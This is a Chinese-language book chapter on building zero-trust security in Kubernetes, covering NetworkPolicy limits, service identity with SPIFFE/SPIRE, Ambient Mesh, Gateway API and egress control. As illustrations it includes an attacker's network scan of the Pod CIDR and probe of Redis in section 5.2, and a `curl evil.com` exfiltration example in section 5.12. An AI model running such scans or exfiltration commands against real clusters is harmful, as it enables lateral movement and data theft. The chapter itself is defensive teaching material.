










> **本章目标**
>
> 阅读完本章后，应能够理解：
>
> * Kubernetes 默认为什么不是零信任架构。
> * Kubernetes 自身提供了哪些安全能力。
> * 为什么 NetworkPolicy 远远不够。
> * Service Account 与 Workload Identity 的区别。
> * 如何利用 SPIFFE、SPIRE、Service Mesh 构建零信任。
> * 如何实现入口、出口和东西向流量的统一安全治理。
> * Kubernetes 云原生零信任参考架构。

---

## 5.1 Kubernetes 默认安全吗？

很多人初次接触 Kubernetes 时会认为它“天然就是安全的”，但这种印象来自对平台能力的高估。实际上，Kubernetes 的设计首要目标是 **资源编排（Orchestration）**，其次才是安全。一个默认安装的集群通常只带有最小化安全配置。

例如，在同一个集群内部署两个 Pod：



只要网络插件允许互通，Pod A 便能通过 `curl http://pod-b:8080` 直接访问 Pod B。这一过程不会发生任何身份认证、服务授权、双向 TLS 加密。Kubernetes 的默认网络模型假设“集群内部网络是可信的”，这与传统企业内网的安全假设几乎完全相同。

因此，**一个新安装完成的 Kubernetes 集群，并不是零信任集群**，而更像一个以“信任网络位置”为前提的传统环境。

---

## 5.2 Kubernetes 默认存在的问题

假设业务拓扑如下：



如果没有策略，Payment 服务便有机会直接访问 Redis、Database，甚至集群内其他任何服务。更严重的是，攻击者一旦控制了一个测试 Pod，便可以探测整个 Pod CIDR：

```bash
nmap 10.244.0.0/16
curl http://redis:6379
```

这就是典型的 **扁平网络（Flat Network）**，其最大风险在于 **横向移动（Lateral Movement）**：攻击者仅凭一个低权限 Pod 就可能逐步接触敏感服务，完全背离零信任原则。

---

## 5.3 Kubernetes 自带哪些安全能力

Kubernetes 并非毫无安全能力，它已经内置了许多基础机制：

| 能力                     | 是否属于零信任 | 作用                        |
| ------------------------ | -------------- | --------------------------- |
| RBAC                     | 是（部分）     | 限制对 API Server 的操作权限 |
| Service Account          | 是（部分）     | 为 Pod 提供访问 API 的身份   |
| Secret                   | 否             | 配置存储（需加密支撑）       |
| NetworkPolicy            | 是（部分）     | 基于标签的 L3/L4 网络隔离    |
| Admission Controller     | 是             | 请求准入校验、安全策略注入   |
| Pod Security Admission   | 是             | 限制 Pod 的安全上下文        |
| Audit Log                | 是             | 记录所有 API 调用用于审计    |

然而，这些能力是彼此独立的点状功能，并没有形成完整的零信任闭环。它们需要被统一编排才能构建端到端的安全体系。

---

## 5.4 为什么 NetworkPolicy 不够

许多团队误以为只要部署了 `NetworkPolicy` 就算实现了零信任。实际上，NetworkPolicy 只回答一个问题：

> **哪些 IP 可以相互通信？**

例如：

```yaml
podSelector:
  matchLabels:
    app: payment
ingress:
  - from:
    - podSelector:
        matchLabels:
          app: order
```

该策略底层的判断依据仍然是 Pod 标签、命名空间和 IP。它完全没有“身份”的概念。如果 Payment Pod 被攻陷，攻击者仍可以从该 Pod 发起 `curl order` 请求，NetworkPolicy 无法区分请求是来自合法代码还是恶意进程。

因此，NetworkPolicy 属于 **网络层安全（Network Layer Security）**，而非 **身份安全（Identity Security）**。真正的零信任要求服务间通信必须基于可验证的身份，而不是只检查 IP 和标签。

---

## 5.5 Service Account

Kubernetes 确实为 Pod 设计了一种身份标识——**Service Account**。例如：

```yaml
spec:
  serviceAccountName: payment
```

Pod 启动后，会自动挂载一个 JWT Token（通常位于 `/var/run/secrets/kubernetes.io/serviceaccount/token`），用于与 API Server 交互：



这里需要特别注意：Service Account 的主要目标是 **访问 Kubernetes API**，而不是微服务之间的身份认证。其 JWT 受众通常是 `kubernetes.io`，其他业务服务并不会验证该 Token。

---

## 5.6 为什么 Service Account 不够

假设 Payment 直接调用 Order：



Order 服务根本无从得知 Payment 使用的是哪个 Service Account，因为 HTTP 请求中没有携带该 Token，TCP 连接中也没有。Service Account 的信息并未暴露在服务间通信中，因此它无法直接充当 **服务身份（Service Identity）**。

正因如此，业界才会出现 SPIFFE 等专门的工作负载身份标准。

---

## 5.7 Workload Identity

零信任真正关心的是 **运行中的工作负载是谁**，例如：

```text
payment
inventory
order
```

而不是临时的 `10.244.7.12`。这种不随 IP 或 Pod 重建而变化的身份称为 **工作负载身份（Workload Identity）**。它与 Kubernetes 生命周期解耦：即使 Pod 被删除重建、漂移到其他节点，身份依然保持一致，从而让安全策略可以稳定地绑定到一个逻辑服务上。

---

## 5.8 SPIFFE

SPIFFE（Secure Production Identity Framework For Everyone）定义了一套标准的工作负载身份模型。每个工作负载拥有一个全球唯一的 SPIFFE ID，例如：

```text
spiffe://company.com/prod/payment
```

这个 ID 完全不依赖 IP、主机名或 Pod 名称。Pod 重建、节点漂移后，身份不变。其生命周期如下：



Pod 最终获得一个绑定到 SPIFFE ID 的 X.509 证书，用于后续的 mTLS 通信。

---

## 5.9 SPIRE

SPIRE 是 SPIFFE 标准的官方实现，负责自动化的身份签发与轮换。它在节点上部署 Agent，在集群中运行 Server，整体流程如下：



SPIRE 不相信 Pod 名称、命名空间或 IP，而是通过 **证明（Attestation）** 来确认工作负载身份。例如，Agent 会联合 Kubernetes API、节点元数据、进程选择器等多维信息，共同判断“这个工作负载就是 Payment”。一旦证明通过，便签发短期证书，并自动轮换，使凭据泄露的风险窗口极小。

---

## 5.10 Ambient Mesh

当工作负载拥有稳定的身份之后，下一步便是实现透明、自动的安全通信。传统 Istio 采用 Sidecar 模式：每个 Pod 旁运行一个 Envoy 代理，负责 mTLS、遥测和策略执行。这种方式功能强大，但带来了额外的 CPU、内存和运维复杂度。

Ambient Mesh 对此进行了革命性简化，将代理分层：



- **ztunnel**：运行在每个节点上，处理 L4 安全（mTLS、简单鉴权），资源开销极低。
- **Waypoint Proxy**：按需部署在命名空间或服务级别，处理 L7 策略（路由、限流、细粒度授权）。

| 对比项     | Sidecar 模式                | Ambient Mesh                          |
| ---------- | --------------------------- | ------------------------------------- |
| Proxy 数量 | 每 Pod 一个                  | 每节点一个 ztunnel，Waypoint 按需部署 |
| CPU 开销   | 较高                        | 更低                                  |
| 内存占用   | 较高                        | 更低                                  |
| 运维复杂度 | 高（须管理 Sidecar 生命周期） | 中                                    |
| 零信任能力 | 完整                        | 完整                                  |

在这种模型下，身份、mTLS、授权全部自动完成，业务代码完全无需修改，真正做到了对应用透明的零信任。

---

## 5.11 Gateway API

传统的 Kubernetes Ingress 资源主要面向 HTTP/HTTPS 路由，表达能力有限，且缺乏对流量的精细化治理。Gateway API 是下一代标准，将网关、路由和策略分离：



相比 Ingress，Gateway API 支持：

- HTTP、HTTPS、TCP、TLS、gRPC 等多种协议
- 基于权重的流量分割、请求头匹配
- 按命名空间粒度委派路由管理
- 与 Service Mesh 集成实现统一治理

它成为云原生南北向流量治理的标准接口，非常适合零信任架构下的入口安全控制。

---

## 5.12 Ingress 与 Egress

很多团队只关注入口流量的安全，忽视了出口流量。实际上，出口管控同样关键。

- **入口（Ingress）**：`Internet → Gateway → 服务`，通过网关进行身份认证、JWT 校验、TLS 终结。
- **出口（Egress）**：`Pod → Internet`，如果攻击者控制了 Pod，执行 `curl evil.com`，没有 Egress 策略则允许数据外传。

现代零信任要求对 **入口、出口、东西向流量** 进行统一安全治理。出口策略通常由 Service Mesh 或网络策略控制，只允许白名单域名或通过正向代理检查流量，防止数据泄露和命令与控制（C2）通信。

---

## 5.13 Kubernetes 中的东西向流量

真正复杂且最具风险的是服务间的东西向通信，例如：



现代 Service Mesh 通过统一的数据平面，为这些通信同时提供：

- **mTLS**：基于工作负载身份的加密与认证
- **Authorization**：基于身份的细粒度访问控制
- **可观测性**：分布式追踪、Prometheus 指标、访问日志
- **可靠性**：超时、重试、熔断、负载均衡

所有这些能力都从业务代码中剥离，实现了安全治理与业务逻辑的彻底解耦。

---

## 5.14 Kubernetes 云原生零信任参考架构

最终，一套面向云原生的零信任参考架构可以抽象如下：



真正的数据流如下：

```text
User
  → OIDC 认证
  → Gateway API (JWT 校验)
  → Ambient Mesh (ztunnel)
  → SPIFFE 身份识别
  → 双向 mTLS
  → Authorization Policy
  → 业务服务
  → Database
```

控制平面持续提供身份签发、策略下发和证书轮换；数据平面负责请求转发、身份验证、加密通信、策略执行和遥测采集。两者相互独立，既保证了安全性，又不会对业务延迟造成显著影响。

---

## 本章总结

Kubernetes 提供了构建零信任所需的大部分基础能力，但 **默认并不是零信任平台**。它自带的 RBAC、Service Account、NetworkPolicy、Admission Controller 等机制，无法直接构成完整的服务间信任体系。真正的云原生零信任需要由以下组件协同构建：

| 层级       | 核心组件                                     | 作用                        |
| ---------- | -------------------------------------------- | --------------------------- |
| 身份层     | OIDC + Service Account + SPIFFE/SPIRE        | 建立用户身份和工作负载身份  |
| 网络层     | CNI + NetworkPolicy                          | 提供基础网络隔离            |
| 服务通信层 | Ambient Mesh 或 Sidecar Mesh                 | 实现 mTLS、流量治理和服务认证 |
| 授权层     | OPA + AuthorizationPolicy                    | 实现细粒度动态访问控制      |
| 南北向流量 | Gateway API                                  | 统一入口治理                |
| 东西向流量 | Service Mesh                                 | 服务间身份认证、授权和加密  |
| 可观测性   | OpenTelemetry + Audit                        | 审计、链路追踪和指标采集    |

因此，**零信任不是 Kubernetes 的单一功能，而是在 Kubernetes 之上构建的一套完整安全体系**。只有将身份、通信加密、动态授权、网络治理和全程审计有机结合，才能真正实现云原生环境下的零信任架构。